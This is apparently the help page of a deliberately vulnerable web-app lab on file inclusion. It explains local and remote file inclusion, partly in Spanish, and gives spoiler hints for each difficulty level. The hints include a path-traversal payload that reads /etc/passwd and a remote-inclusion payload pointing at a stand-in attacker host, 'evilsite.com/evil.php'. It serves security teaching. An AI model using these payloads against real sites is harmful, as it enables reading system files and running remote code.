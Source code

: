 ** Objective:** Read all five famous quotes from '../hackable/flags/fi.php' using only the file inclusion.

----------------------------------------------------------------------
**Acerca del laboratorio:**
Algunas aplicaciones web permiten al usuario especificar entradas que se utilizan directamente en flujos de archivos o permiten al usuario subir archivos al servidor. En un momento posterior, la aplicación web accede a la entrada proporcionada por el usuario en el contexto de la aplicación web. Al hacer esto, la aplicación web está permitiendo la posibilidad de ejecución de archivos maliciosos. Si el archivo elegido para incluirse es local en la máquina objetivo, se denomina "Inclusión de Archivos Locales (LFI)". Pero los archivos también pueden incluirse en otras máquinas, en cuyo caso el ataque es una "Inclusión de Archivos Remotos (RFI)".

Cuando RFI no es una opción, usar otra vulnerabilidad con LFI (como la subida de archivos y la transversalidad de directorios) a menudo puede lograr el mismo efecto.

Nota, el término "inclusión de archivos" no es lo mismo que "acceso arbitrario a archivos" o "divulgación de archivos".

----------------------------------------------------------------------------------
### Low Level
This allows for direct input into one of many PHP functions that will include the content when executing.

Depending on the web service configuration will depend if RFI is a possibility.

Spoiler: LFI: ?page=../../../../../../etc/passwd.
			Spoiler: RFI: ?page=http://www.evilsite.com/evil.php.

### Medium Level
The developer has read up on some of the issues with LFI/RFI, and decided to filter the input. However, the patterns that are used, isn't enough.

Spoiler: LFI: Possible, due to it only cycling through the pattern matching once.
			Spoiler: RFI: PHP Streams.

### High Level
The developer has had enough. They decided to only allow certain files to be used. However as there are multiple files with the same basename, they use a wildcard to include them all.

Spoiler: LFI: The filename only has start with a certain value..
			Spoiler: RFI: Need to link in another vulnerability, such as file upload.

### Impossible Level
The developer calls it quits and hardcodes only the allowed pages, with there exact filenames. By doing this, it removes all avenues of attack.


Reference: Wikipedia - File inclusion vulnerability

Reference: WSTG - Local File Inclusion

Reference: WSTG - Remote File Inclusion

Reference: PHP File Inclusion
